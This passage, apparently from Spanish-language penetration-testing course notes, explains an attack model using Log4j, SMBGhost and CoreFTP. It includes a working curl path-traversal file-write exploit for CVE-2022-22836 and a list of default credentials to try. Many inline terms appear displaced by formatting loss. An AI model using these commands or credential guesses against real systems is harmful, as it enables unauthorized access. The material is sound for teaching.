|[smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)||[mailutils](https://mailutils.org/)|[SQL Server Management Studio o SSMS](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms)|
|||[sendEmail](https://github.com/mogaal/sendemail)||
|||[Swaks](http://www.jetmore.org/john/code/swaks/)||
|||[Enviar correo](https://en.wikipedia.org/wiki/Sendmail)||

---

## Solución de problemas generales

Dependiendo de la versión de Windows o Linux con la que estemos trabajando o dirigiéndonos, podemos encontrarnos con diferentes problemas al intentar conectarnos a un servicio.

Algunas razones por las que es posible que no tengamos acceso a un recurso:

- Autenticación
- Privilegios
- Conexión de red
- Reglas de firewall
- Compatibilidad con protocolos

Ten en cuenta que podemos encontrar diferentes errores en función del servicio al que nos dirijamos. Podemos usar los códigos de error a nuestro favor y buscar documentación oficial o foros donde las personas resolvieron un problema similar al nuestro.

# El concepto de ataques

---

Para comprender de manera efectiva los ataques a los diferentes servicios, debemos observar cómo se pueden atacar estos servicios. Un concepto es un plan esbozado que se aplica a proyectos futuros. Como ejemplo, podemos pensar en el concepto de construir una casa. Muchas casas tienen un sótano, cuatro paredes y un techo. La mayoría de las casas están construidas de esta manera, y es un concepto que se aplica en todo el mundo. Los detalles más finos, como el material utilizado o el tipo de diseño, son flexibles y se pueden adaptar a los deseos y circunstancias individuales. Este ejemplo muestra que un concepto necesita una categorización general (piso, paredes, techo).

En nuestro caso, necesitamos crear un concepto para los ataques a todos los servicios posibles y dividirlo en categorías que resuman todos los servicios, pero que dejen los métodos de ataque individuales.

Para explicar un poco más claramente de qué estamos hablando aquí, podemos intentar agrupar nosotros mismos los servicios SSH, FTP, SMB y HTTP y averiguar qué tienen en común estos servicios. Luego necesitamos crear una estructura que nos permita identificar los puntos de ataque de estos diferentes servicios utilizando un solo patrón.

El análisis de los puntos en común y la creación de plantillas de patrones que se ajusten a todos los casos imaginables no es un producto terminado, sino más bien un proceso que hace que estas plantillas de patrones crezcan más y más. Por lo tanto, hemos creado una plantilla de patrón para este tema para que pueda enseñar y explicar de manera mejor y más eficiente el concepto detrás de los ataques.

#### El concepto de ataques


El concepto se basa en cuatro categorías que se producen para cada vulnerabilidad. En primer lugar, tenemos a que realiza la solicitud específica a un lugar donde se desencadena la vulnerabilidad. Cada proceso tiene un conjunto específico con el que se ejecuta. Cada proceso tiene una tarea con un objetivo específico o para calcular nuevos datos o reenviarlos. Sin embargo, las especificaciones individuales y únicas de estas categorías pueden diferir de un servicio a otro.`Source``Process``Privileges``Destination`

Cada tarea y pieza de información sigue un patrón específico, un ciclo, que hemos hecho lineal deliberadamente. Esto se debe a que no siempre sirve como un y, por lo tanto, no se trata como una fuente de una nueva tarea.`Destination``Source`

Para que cualquier tarea llegue a existir, necesita una idea, información (), un proceso planificado para ella () y un objetivo específico () para ser alcanzado. Por lo tanto, la categoría de es necesaria para controlar adecuadamente el procesamiento de la información.`Source``Processes``Destination``Privileges`

---

## Fuente

Podemos generalizar como una fuente de información utilizada para la tarea específica de un proceso. Hay muchas formas diferentes de pasar información a un proceso. El gráfico muestra algunos de los ejemplos más comunes de cómo se pasa la información a los procesos.`Source`

|**Fuente de información**|**Descripción**|
|---|---|
|`Code`|Esto significa que los resultados del código de programa ya ejecutado se utilizan como fuente de información. Estos pueden provenir de diferentes funciones de un programa.|
|`Libraries`|Una biblioteca es una colección de recursos del programa, incluidos datos de configuración, documentación, datos de ayuda, plantillas de mensajes, código precompilado y subrutinas, clases, valores o especificaciones de tipo.|
|`Config`|Las configuraciones suelen ser valores estáticos o prescritos que determinan cómo el proceso procesa la información.|
|`APIs`|La interfaz de programación de aplicaciones (API) se utiliza principalmente como interfaz de programas para recuperar o proporcionar información.|
|`User Input`|Si un programa tiene una función que permite al usuario introducir valores específicos utilizados para procesar la información en consecuencia, se trata de la introducción manual de información por parte de una persona.|

La fuente es, por lo tanto, la fuente que se explota en busca de vulnerabilidades. No importa qué protocolo se utilice porque las inyecciones de encabezado HTTP se pueden manipular manualmente, al igual que los desbordamientos de búfer. Por lo tanto, la fuente de esto se puede clasificar como . Así que echemos un vistazo más de cerca a la plantilla de patrón basada en una de las últimas vulnerabilidades críticas de las que la mayoría de nosotros hemos oído hablar.`Code`

#### Log4j

Un gran ejemplo es la vulnerabilidad crítica Log4j ([CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228)) que se publicó a finales de 2021. Log4j es un marco de trabajo o se utiliza para registrar mensajes de aplicaciones en Java y otros lenguajes de programación. Esta biblioteca contiene clases y funciones que otros lenguajes de programación pueden integrar. Para ello, se documenta la información, de forma similar a un cuaderno de bitácora. Además, el alcance de la documentación se puede configurar ampliamente. Como resultado, se ha convertido en un estándar dentro de muchos productos de software comercial y de código abierto. En este ejemplo, un atacante puede manipular el encabezado HTTP User-Agent e insertar una búsqueda JNDI como un comando destinado a Log4j . En consecuencia, no se procesa el encabezado de User-Agent real, como Mozilla 5.0, sino la búsqueda JNDI.`Library``library`

---

## Procesos

Se trata de procesar la información transmitida desde la fuente. Estos se procesan de acuerdo con la tarea prevista determinada por el código del programa. Para cada tarea, el desarrollador especifica cómo se procesa la información. Esto puede ocurrir usando clases con diferentes funciones, cálculos y bucles. La variedad de posibilidades para esto es tan diversa como el número de desarrolladores en el mundo. En consecuencia, la mayoría de las vulnerabilidades se encuentran en el código del programa ejecutado por el proceso.`Process`

|**Componentes del proceso**|**Descripción**|
|---|---|
|`PID`|El ID de proceso (PID) identifica el proceso que se está iniciando o que ya se está ejecutando. Los procesos en ejecución ya tienen privilegios asignados y se inician otros nuevos en consecuencia.|
|`Input`|Se refiere a la entrada de información que podría ser asignada por un usuario o como resultado de una función programada.|
|`Data processing`|Las funciones codificadas de un programa dictan cómo se procesa la información recibida.|
|`Variables`|Las variables se utilizan como marcadores de posición para la información que las diferentes funciones pueden procesar posteriormente durante la tarea.|
|`Logging`|Durante el registro, ciertos eventos se documentan y, en la mayoría de los casos, se almacenan en un registro o un archivo. Esto significa que cierta información permanece en el sistema.|

#### Log4j

El proceso de Log4j consiste en registrar el User-Agent como una cadena utilizando una función y almacenarlo en la ubicación designada. La vulnerabilidad en este proceso es la mala interpretación de la cadena, lo que lleva a la ejecución de una solicitud en lugar de registrar los eventos. Sin embargo, antes de profundizar en esta función, debemos hablar de los privilegios.

---

## Privilegios

`Privileges` están presentes en cualquier sistema que controle procesos. Estos sirven como un tipo de permiso que determina qué tareas y acciones se pueden realizar en el sistema. En términos simples, se puede comparar con un boleto de autobús. Si utilizamos un billete destinado a una región en particular, podremos usar el autobús, y de lo contrario, no lo haremos. Estos privilegios (o en sentido figurado, nuestros billetes) también se pueden utilizar para diferentes medios de transporte, como aviones, trenes, barcos y otros. En los sistemas informáticos, estos privilegios sirven como control y segmentación de acciones para las que se necesitan diferentes permisos, controlados por el sistema. Por lo tanto, los derechos se verifican en función de esta categorización cuando un proceso necesita cumplir su tarea. Si el proceso cumple con estos privilegios y condiciones, el sistema aprueba la acción solicitada. Podemos dividir estos privilegios en las siguientes áreas:

|**Privilegios**|**Descripción**|
|---|---|
|`System`|Estos privilegios son los privilegios más altos que se pueden obtener, que permiten cualquier modificación del sistema. En Windows, este tipo de privilegio se llama , y en Linux, se llama .`SYSTEM``root`|
|`User`|Los privilegios de usuario son permisos que se han asignado a un usuario específico. Por razones de seguridad, a menudo se configuran usuarios separados para servicios particulares durante la instalación de distribuciones de Linux.|
|`Groups`|Los grupos son una categorización de al menos un usuario que tiene ciertos permisos para realizar acciones específicas.|
|`Policies`|Las políticas determinan la ejecución de comandos específicos de la aplicación, que también se pueden aplicar a usuarios individuales o agrupados y sus acciones.|
|`Rules`|Las reglas son los permisos para realizar acciones que se manejan desde las propias aplicaciones.|

#### Log4j

Lo que hizo que la vulnerabilidad de Log4j fuera tan peligrosa fue la que trajo la implementación. Los registros a menudo se consideran confidenciales porque pueden contener datos sobre el servicio, el sistema en sí o incluso los clientes. Por lo tanto, los registros generalmente se almacenan en ubicaciones a las que ningún usuario normal debería poder acceder. En consecuencia, la mayoría de las aplicaciones con la implementación de Log4j se ejecutaron con los privilegios de un administrador. El propio proceso explotaba la biblioteca manipulando el User-Agent para que el proceso malinterpretara el código fuente y llevara a la ejecución del código proporcionado por el usuario.`Privileges`

---

## Destino

Cada tarea tiene al menos un propósito y una meta que deben cumplirse. Lógicamente, si faltara algún cambio en el conjunto de datos o no se almacenara o reenviara a ningún lugar, la tarea sería generalmente innecesaria. El resultado de dicha tarea se almacena en algún lugar o se reenvía a otro punto de procesamiento. Por lo tanto, hablamos aquí de dónde se realizarán los cambios. Estos puntos de procesamiento pueden apuntar a un proceso local o remoto. Por lo tanto, a nivel local, los archivos o registros locales pueden ser modificados por el proceso o reenviados a otros servicios locales para su uso posterior. Sin embargo, esto no excluye la posibilidad de que el mismo proceso también pueda reutilizar los datos resultantes. Si el proceso se completa con el almacenamiento de datos o su reenvío, se cierra el ciclo que conduce a la finalización de la tarea.`Destination`

|**Destino**|**Descripción**|
|---|---|
|`Local`|El área local es el entorno del sistema en el que se produjo el proceso. Por lo tanto, los resultados de una tarea se procesan posteriormente mediante un proceso que incluye cambios en los conjuntos de datos o el almacenamiento de los datos.|
|`Network`|El área de red es principalmente una cuestión de reenviar los resultados de un proceso a una interfaz remota. Puede ser una dirección IP y sus servicios o incluso redes enteras. Los resultados de estos procesos también pueden influir en la ruta en determinadas circunstancias.|

#### Log4j

La mala interpretación del User-Agent conduce a una búsqueda JNDI que se ejecuta como un comando desde el sistema con privilegios de administrador y consulta a un servidor remoto controlado por el atacante, que en nuestro caso es el en nuestro concepto de ataques. Esta consulta solicita una clase Java creada por el atacante y se manipula para sus propios fines. El código Java consultado dentro de la clase Java manipulada se ejecuta en el mismo proceso, lo que conduce a una vulnerabilidad de ejecución remota de código ().`Destination``RCE`

GovCERT.ch ha creado una excelente representación gráfica de la vulnerabilidad Log4j que vale la pena examinar en detalle.

 Fuente: https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/

Este gráfico desglosa el ataque JNDI de Log4j basado en el archivo .`Concept of Attacks`

#### Inicio del ataque

|**Paso**|**Log4j**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`1.`|El atacante manipula el agente de usuario con un mandato de búsqueda JNDI.|`Source`|
|`2.`|El proceso malinterpreta el agente de usuario asignado, lo que lleva a la ejecución del comando.|`Process`|
|`3.`|El mandato de búsqueda JNDI se ejecuta con privilegios de administrador debido a los permisos de registro.|`Privileges`|
|`4.`|Este mandato de búsqueda JNDI apunta al servidor creado y preparado por el atacante, que contiene una clase Java maliciosa que contiene mandatos diseñados por el atacante.|`Destination`|

Aquí es cuando el ciclo comienza de nuevo, pero esta vez para obtener acceso remoto al sistema de destino.

#### Desencadenar la ejecución remota de código

|**Paso**|**Log4j**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`5.`|Una vez que la clase Java maliciosa se recupera del servidor del atacante, se utiliza como fuente para otras acciones en el siguiente proceso.|`Source`|
|`6.`|A continuación, se lee el código malicioso de la clase Java, que en muchos casos ha llevado al acceso remoto al sistema.|`Process`|
|`7.`|El código malicioso se ejecuta con privilegios de administrador debido a los permisos de registro.|`Privileges`|
|`8.`|El código conduce de vuelta a través de la red al atacante con las funciones que permiten al atacante controlar el sistema de forma remota.|`Destination`|

Finalmente, vemos un patrón que podemos usar repetidamente para nuestros ataques. Esta plantilla de patrón se puede usar para analizar y comprender vulnerabilidades y depurar nuestras propias vulnerabilidades durante el desarrollo y las pruebas. Además, esta plantilla de patrones también se puede aplicar al análisis de código fuente, lo que nos permite comprobar paso a paso ciertas funcionalidades y comandos en nuestro código. Por último, también podemos pensar categóricamente sobre los peligros de cada tarea de forma individual.


# Errores de configuración del servicio

---

Los errores de configuración suelen ocurrir cuando un administrador de sistemas, soporte técnico o desarrollador no configura correctamente el marco de seguridad de una aplicación, sitio web, escritorio o servidor, lo que genera peligrosas rutas abiertas para usuarios no autorizados. Exploremos algunas de las configuraciones incorrectas más típicas de los servicios comunes.

---

## Autenticación

En años anteriores (aunque todavía vemos esto a veces durante las evaluaciones), era generalizado que los servicios incluyeran credenciales predeterminadas (nombre de usuario y contraseña). Esto presenta un problema de seguridad porque muchos administradores dejan las credenciales predeterminadas sin cambios. Hoy en día, la mayoría del software pide a los usuarios que configuren las credenciales durante la instalación, lo cual es mejor que las credenciales predeterminadas. Sin embargo, tenga en cuenta que todavía encontraremos proveedores que usan credenciales predeterminadas, especialmente en aplicaciones más antiguas.

Incluso cuando el servicio no tiene un conjunto de credenciales predeterminadas, un administrador puede usar contraseñas débiles o ninguna contraseña al configurar servicios con la idea de que cambiará la contraseña una vez que el servicio esté configurado y en funcionamiento.

Como administradores, necesitamos definir políticas de contraseñas que se apliquen al software probado o instalado en nuestro entorno. Se debe exigir a los administradores que cumplan con una complejidad mínima de contraseñas para evitar combinaciones de usuario y contraseñas como:

  Errores de configuración del servicio

```shell-session
admin:admin
admin:password
admin:<blank>
root:12345678
administrator:Password
```

Una vez que agarramos el banner del servicio, el siguiente paso debe ser identificar las posibles credenciales predeterminadas. Si no hay credenciales predeterminadas, podemos probar las combinaciones débiles de nombre de usuario y contraseña enumeradas anteriormente.

#### Autenticación anónima

Otra configuración incorrecta que puede existir en los servicios comunes es la autenticación anónima. El servicio se puede configurar para permitir la autenticación anónima, lo que permite que cualquier persona con conectividad de red acceda al servicio sin que se le solicite la autenticación.

#### Derechos de acceso mal configurados

Imaginemos que recuperamos las credenciales de un usuario cuya función es cargar archivos en el servidor FTP, pero se le otorgó el derecho de leer todos los documentos FTP. La posibilidad es infinita, dependiendo de lo que haya dentro del servidor FTP. Podemos encontrar archivos con información de configuración para otros servicios, credenciales de texto sin formato, nombres de usuario, información de propiedad e información de identificación personal (PII).

Los derechos de acceso mal configurados se producen cuando las cuentas de usuario tienen permisos incorrectos. El mayor problema podría ser dar a las personas que están más abajo en la cadena de mando acceso a información privada que solo los gerentes o administradores deberían tener.

Los administradores deben planificar su estrategia de derechos de acceso y existen algunas alternativas, como [el control de acceso basado en roles (RBAC),](https://en.wikipedia.org/wiki/Role-based_access_control) [las listas de control de acceso (ACL).](https://en.wikipedia.org/wiki/Access-control_list) Si queremos más detalles sobre los pros y los contras de cada método, podemos leer [Choosing the best access control strategy](https://authress.io/knowledge-base/role-based-access-control-rbac) de Warren Parad de Authress.

---

## Valores predeterminados innecesarios

La configuración inicial de los dispositivos y el software puede incluir, entre otros, ajustes, funciones, archivos y credenciales. Esos valores predeterminados suelen estar destinados a la usabilidad más que a la seguridad. Dejarlo por defecto no es una buena práctica de seguridad para un entorno de producción. Los valores predeterminados innecesarios son aquellas configuraciones que necesitamos cambiar para proteger un sistema reduciendo su superficie de ataque.

También podríamos entregar la información personal de nuestra empresa en bandeja de plata si tomamos el camino fácil y aceptamos la configuración predeterminada al configurar el software o un dispositivo por primera vez. En realidad, los atacantes pueden obtener credenciales de acceso para equipos específicos o abusar de una configuración débil mediante la realización de una breve búsqueda en Internet.

[Los errores de configuración de seguridad](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/) forman parte de la [lista de los 10 principales de OWASP](https://owasp.org/Top10/). Echemos un vistazo a los relacionados con los valores predeterminados:

- Se habilitan o instalan funciones innecesarias (por ejemplo, puertos, servicios, páginas, cuentas o privilegios innecesarios).
- Las cuentas predeterminadas y sus contraseñas siguen habilitadas y sin cambios.
- El control de errores revela seguimientos de pila u otros mensajes de error demasiado informativos a los usuarios.
- En el caso de los sistemas actualizados, las funciones de seguridad más recientes están deshabilitadas o no están configuradas de forma segura.

---

## Prevención de errores de configuración

Una vez que hemos descubierto nuestro entorno, la estrategia más sencilla para controlar el riesgo es bloquear la infraestructura más crítica y permitir solo el comportamiento deseado. Cualquier comunicación que no sea requerida por el programa debe ser deshabilitada. Esto puede incluir cosas como:

- Las interfaces de administración deben estar deshabilitadas.
- La depuración está desactivada.
- Deshabilite el uso de nombres de usuario y contraseñas predeterminados.
- Configure el servidor para evitar el acceso no autorizado, la lista de directorios y otros problemas.
- Ejecute análisis y auditorías con regularidad para ayudar a descubrir futuros errores de configuración o correcciones faltantes.

El Top 10 de OWASP proporciona una sección sobre cómo proteger los procesos de instalación:

- Un proceso de endurecimiento repetible hace que sea rápido y fácil implementar otro entorno que esté bloqueado adecuadamente. Los entornos de desarrollo, control de calidad y producción deben configurarse de forma idéntica, con diferentes credenciales utilizadas en cada entorno. Además, este proceso debe automatizarse para minimizar el esfuerzo necesario para configurar un nuevo entorno seguro.
    
- Una plataforma mínima sin funciones, componentes, documentación ni muestras innecesarias. Elimine o no instale las funciones y marcos no utilizados.
    
- Una tarea para revisar y actualizar las configuraciones adecuadas para todas las notas de seguridad, actualizaciones y parches como parte del proceso de administración de parches (consulte A06:2021-Componentes vulnerables y obsoletos). Revise los permisos de almacenamiento en la nube (p. ej., permisos de bucket de S3).
    
- Una arquitectura de aplicaciones segmentadas proporciona una separación eficaz y segura entre componentes o inquilinos, con segmentación, contenedorización o grupos de seguridad en la nube (ACL).
    
- Envío de directivas de seguridad a los clientes, por ejemplo, encabezados de seguridad.
    
- Un proceso automatizado para verificar la efectividad de las configuraciones y ajustes en todos los entornos.

# Búsqueda de información confidencial

---

Al atacar un servicio, solemos desempeñar un papel de detective, y necesitamos recopilar la mayor cantidad de información posible y observar cuidadosamente los detalles. Por lo tanto, cada dato es esencial.

Imaginemos que estamos en un compromiso con un cliente, nos dirigimos al correo electrónico, FTP, bases de datos y almacenamiento, y nuestro objetivo es obtener Ejecución Remota de Código (RCE) en cualquiera de estos servicios. Comenzamos la enumeración e intentamos el acceso anónimo a todos los servicios, y solo FTP tiene acceso anónimo. Encontramos un archivo vacío dentro del servicio FTP, pero con el nombre , lo intentamos como usuario y contraseña FTP, pero no funcionó. Intentamos lo mismo contra el servicio de correo electrónico e iniciamos sesión con éxito. Con el acceso al correo electrónico, comenzamos a buscar correos electrónicos que contengan la palabra , encontramos muchos, pero uno de ellos contiene las credenciales de John para la base de datos MSSQL. Accedemos a la base de datos y utilizamos la funcionalidad incorporada para ejecutar comandos y obtener RCE con éxito en el servidor de la base de datos. Cumplimos con éxito nuestro objetivo.`johnsmith``johnsmith``password`

Un servicio mal configurado nos permitió acceder a una información que inicialmente puede parecer insignificante, pero esa información nos abrió las puertas para descubrir más información y finalmente obtener la ejecución remota de código en el servidor de la base de datos. Esta es la importancia de prestar atención a cada información, a cada detalle, a medida que enumeramos y atacamos los servicios comunes.`johnsmith`

La información confidencial puede incluir, entre otros:

- Nombres de usuario.
- Direcciones de correo electrónico.
- Contraseñas.
- Registros DNS.
- Direcciones IP.
- Código fuente.
- Archivos de configuración.
- Información de identificación personal.

Este módulo cubrirá algunos servicios comunes donde podemos encontrar información interesante y descubrir diferentes métodos y herramientas que podemos utilizar para automatizar nuestro proceso de descubrimiento. Estos servicios incluyen:

- Recursos compartidos de archivos.
- Correo electrónico.
- Bases.

---

#### Comprensión de lo que tenemos que buscar

Cada objetivo es único y necesitamos familiarizarnos con nuestro objetivo, sus procesos, procedimientos, modelo de negocio y propósito. Una vez que entendemos a nuestro objetivo, podemos pensar en qué información es esencial para él y qué tipo de información es útil para nuestro ataque.

Hay dos elementos clave para encontrar información confidencial:

1. Necesitamos entender el servicio y cómo funciona.
2. Necesitamos saber lo que estamos buscando.

# Últimas vulnerabilidades de FTP

---

Al hablar de las últimas vulnerabilidades, centraremos esta sección y las siguientes en uno de los ataques mostrados anteriormente y lo presentaremos de la forma más sencilla posible sin entrar en demasiados detalles técnicos. Esto nos debe ayudar a facilitar el concepto del ataque a través de un ejemplo relacionado con un servicio concreto para obtener una mejor comprensión.

En este caso, hablaremos de la vulnerabilidad [asignada CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836). Esta vulnerabilidad es para un servicio FTP que no procesa correctamente la solicitud y conduce a una vulnerabilidad / y. Esta vulnerabilidad nos permite escribir archivos fuera del directorio al que tiene acceso el servicio.`CoreFTP before build 727``HTTP PUT``authenticated directory``path traversal,``arbitrary file write`

---

## El concepto del ataque

Este servicio FTP utiliza una solicitud HTTP para cargar archivos. Sin embargo, el servicio CoreFTP permite una solicitud HTTP, que podemos usar para escribir contenido en archivos. Echemos un vistazo al ataque basado en nuestro concepto. El [exploit](https://www.exploit-db.com/exploits/50652) para este ataque es relativamente sencillo, basado en un solo comando.`POST``PUT``cURL`

#### Explotación de CoreFTP

  Últimas vulnerabilidades de FTP

```shell-session
PatxaSec@htb[/htb]$ curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

Creamos una solicitud HTTP sin procesar () con autenticación básica (), la ruta para el archivo () y su contenido () con este comando. Además, especificamos el encabezado del host () con la dirección IP de nuestro sistema de destino.`PUT``-X PUT``--basic -u <username>:<password>``--path-as-is https://<IP>/../../../../../whoops``--data-binary "PoC."``-H "Host: <IP>"`

#### El concepto de ataques


En resumen, el proceso real malinterpreta la entrada del usuario de la ruta. Esto hace que se omita el acceso a la carpeta restringida. Como resultado, los permisos de escritura en la solicitud HTTP no se controlan adecuadamente, lo que lleva a que podamos crear los archivos que queramos fuera de las carpetas autorizadas. Sin embargo, nos saltaremos la explicación del proceso y saltaremos directamente a la primera parte del exploit.`PUT``Basic Auth`

#### Recorrido de directorios

|**Paso**|**Recorrido de directorios**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`1.`|El usuario especifica el tipo de solicitud HTTP con el contenido del archivo, incluidos los caracteres de escape para salir del área restringida.|`Source`|
|`2.`|El tipo modificado de la solicitud HTTP, el contenido del archivo y la ruta introducida por el usuario se toman y procesan mediante el proceso.|`Process`|
|`3.`|La aplicación comprueba si el usuario está autorizado para estar en la ruta especificada. Dado que las restricciones solo se aplican a una carpeta específica, todos los permisos que se le otorgan se omiten a medida que sale de esa carpeta mediante el recorrido de directorio.|`Privileges`|
|`4.`|El destino es otro proceso que tiene la tarea de escribir el contenido especificado del usuario en el sistema local.|`Destination`|

Hasta este punto, hemos saltado las restricciones impuestas por la aplicación utilizando los caracteres de escape () y llegamos a la segunda parte, donde el proceso escribe el contenido que especificamos en un archivo de nuestra elección. Aquí es cuando el ciclo comienza de nuevo, pero esta vez para escribir contenidos en el sistema de destino.`../../../../`

#### Escritura arbitraria de archivos

|**Paso**|**Escritura arbitraria de archivos**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`5.`|La misma información que el usuario ingresó se utiliza como fuente. En este caso, el nombre de archivo () y el contenido ().`whoops``--data-binary "PoC."`|`Source`|
|`6.`|El proceso toma la información especificada y procede a escribir el contenido deseado en el archivo especificado.|`Process`|
|`7.`|Dado que se omitieron todas las restricciones durante la vulnerabilidad de recorrido de directorio, el servicio aprueba la escritura del contenido en el archivo especificado.|`Privileges`|
|`8.`|El nombre de archivo especificado por el usuario () con el contenido deseado () ahora sirve como destino en el sistema local.`whoops``"PoC."`|`Destination`|

Una vez completada la tarea, podremos encontrar este archivo con el contenido correspondiente en el sistema de destino.

# Últimas vulnerabilidades de smb

---

Server Message Block (SMB) es un protocolo de comunicación creado para proporcionar acceso compartido a archivos e impresoras entre nodos de una red. Inicialmente, fue diseñado para ejecutarse sobre NetBIOS a través de TCP/IP (NBT) utilizando el puerto TCP y los puertos UDP y . Sin embargo, con Windows 2000, Microsoft agregó la opción de ejecutar SMB directamente a través de TCP / IP en el puerto sin la capa NetBIOS adicional. Hoy en día, los sistemas operativos Windows modernos utilizan SMB a través de TCP, pero aún admiten la implementación de NetBIOS como conmutación por error.`139``137``138``445`

Samba es una implementación de código abierto basada en Unix/Linux del protocolo SMB. También permite que los servidores Linux/Unix y los clientes de Windows utilicen los mismos servicios SMB.

Por ejemplo, en Windows, SMB puede ejecutarse directamente a través del puerto 445 TCP/IP sin necesidad de NetBIOS a través de TCP/IP, pero si Windows tiene NetBIOS habilitado, o estamos apuntando a un host que no es de Windows, encontraremos SMB ejecutándose en el puerto 139 TCP/IP. Esto significa que SMB se ejecuta con NetBIOS a través de TCP/IP.

Otro protocolo que se relaciona comúnmente con SMB es [MSRPC (Microsoft Remote Procedure Call).](https://en.wikipedia.org/wiki/Microsoft_RPC) RPC proporciona a un desarrollador de aplicaciones una forma genérica de ejecutar un procedimiento (también conocido como función) en un proceso local o remoto sin tener que comprender los protocolos de red utilizados para admitir la comunicación, como se especifica en [MS-RPCE,](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/290c38b1-92fe-4229-91e6-4fc376610c15) que define una RPC a través del protocolo SMB que puede usar canalizaciones denominadas de protocolo SMB como transporte subyacente.

Para atacar un servidor SMB, debemos comprender su implementación, sistema operativo y qué herramientas podemos usar para abusar de él. Al igual que con otros servicios, podemos abusar de una mala configuración o privilegios excesivos, explotar vulnerabilidades conocidas o descubrir nuevas vulnerabilidades. Además, después de obtener acceso al servicio SMB, si interactuamos con una carpeta compartida, debemos conocer el contenido del directorio. Por último, si nos dirigimos a NetBIOS o RPC, identificar qué información podemos obtener o qué acción podemos realizar sobre el objetivo.

---

Una vulnerabilidad significativa reciente que afectó al protocolo [SMB se llamó SMBGhost](https://arista.my.site.com/AristaCommunity/s/article/SMBGhost-Wormable-Vulnerability-Analysis-CVE-2020-0796) con [CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796). La vulnerabilidad consistía en un mecanismo de compresión de la versión SMB v3.1.1 que hacía que las versiones 1903 y 1909 de Windows 10 fueran vulnerables al ataque de un atacante no autenticado. La vulnerabilidad permitió al atacante obtener la ejecución remota de código () y acceso completo al sistema de destino remoto.`RCE`

No discutiremos la vulnerabilidad en detalle en esta sección, ya que una explicación muy detallada requiere cierta experiencia en ingeniería inversa y conocimientos avanzados de desarrollo de CPU, kernel y exploits. En su lugar, solo nos centraremos en el concepto de ataque porque incluso con exploits y vulnerabilidades más complicados, el concepto sigue siendo el mismo.

---

## El concepto del ataque

En términos sencillos, se trata de una vulnerabilidad de [desbordamiento de enteros](https://en.wikipedia.org/wiki/Integer_overflow) en una función de un controlador SMB que permite sobrescribir los comandos del sistema mientras se accede a la memoria. Un desbordamiento de enteros es el resultado de una CPU que intenta generar un número mayor que el valor requerido para el espacio de memoria asignado. Las operaciones aritméticas siempre pueden devolver valores inesperados, lo que da lugar a un error. Un ejemplo de desbordamiento de enteros puede ocurrir cuando un programador no permite que ocurra un número negativo. En este caso, se produce un desbordamiento de enteros cuando una variable realiza una operación que da como resultado un número negativo y la variable se devuelve como un entero positivo. Esta vulnerabilidad se produjo porque, en ese momento, la función carecía de comprobaciones de límites para controlar el tamaño de los datos enviados en el proceso de negociación de la sesión SMB.

Para obtener más información sobre las técnicas de desbordamiento de búfer y las vulnerabilidades, consulte el módulo [Desbordamientos de búfer basados en pila en Linux x86](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-linux-x86) y [Desbordamientos de búfer basados en pila en Windows x86](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-windows-x86). Estos detallan los conceptos básicos de cómo el atacante puede sobrescribir y manejar el búfer.

#### El concepto de ataques


La vulnerabilidad se produce al procesar un mensaje comprimido con formato incorrecto después de que el archivo . Si el servidor SMB permite solicitudes (a través de TCP/445), generalmente se admite la compresión, donde el servidor y el cliente establecen los términos de comunicación antes de que el cliente envíe más datos. Supongamos que los datos transmitidos superan los límites de las variables enteras debido a la cantidad excesiva de datos. En ese caso, estas partes se escriben en el búfer, lo que conduce a la sobrescritura de las instrucciones posteriores de la CPU e interrumpe la ejecución normal o planificada del proceso. Estos conjuntos de datos se pueden estructurar de manera que las instrucciones sobrescritas sean reemplazadas por las nuestras, y así obligamos a la CPU (y por lo tanto también al proceso) a realizar otras tareas e instrucciones.`Negotiate Protocol Responses`

#### Inicio del ataque

|**Paso**|**SMBGhost**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`1.`|El cliente envía una solicitud manipulada por el atacante al servidor SMB.|`Source`|
|`2.`|Los paquetes comprimidos enviados se procesan de acuerdo con las respuestas del protocolo negociado.|`Process`|
|`3.`|Este proceso se realiza con los privilegios del sistema o al menos con los privilegios de un administrador.|`Privileges`|
|`4.`|El proceso local se utiliza como destino, que debe procesar estos paquetes comprimidos.|`Destination`|

Aquí es cuando el ciclo comienza de nuevo, pero esta vez para obtener acceso remoto al sistema de destino.

#### Desencadenar la ejecución remota de código

|**Paso**|**SMBGhost**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`5.`|Las fuentes utilizadas en el segundo ciclo son del proceso anterior.|`Source`|
|`6.`|En este proceso, el desbordamiento de enteros se produce reemplazando el búfer sobrescrito con las instrucciones del atacante y obligando a la CPU a ejecutar esas instrucciones.|`Process`|
|`7.`|Se utilizan los mismos privilegios del servidor SMB.|`Privileges`|
|`8.`|El sistema atacante remoto se utiliza como destino, en este caso, otorgando acceso al sistema local.|`Destination`|

Sin embargo, a pesar de la complejidad de la vulnerabilidad debido a la manipulación del búfer, que podemos ver en la [PoC](https://www.exploit-db.com/exploits/48537), el concepto de ataque se aplica aquí.

# Últimas vulnerabilidades de SQL



[MySQL](https://www.mysql.com/) y [Microsoft SQL Server](https://www.microsoft.com/en-us/sql-server/sql-server-2019) (en inglés: MySQL y Microsoft SQL Server) son sistemas de administración de [bases de datos relacionales](https://en.wikipedia.org/wiki/Relational_database) que almacenan datos en tablas, columnas y filas. Muchos sistemas de bases de datos relacionales como MSSQL y MySQL utilizan el [lenguaje de consulta estructurado](https://en.wikipedia.org/wiki/SQL) () para consultar y mantener la base de datos.`MSSQL``SQL`

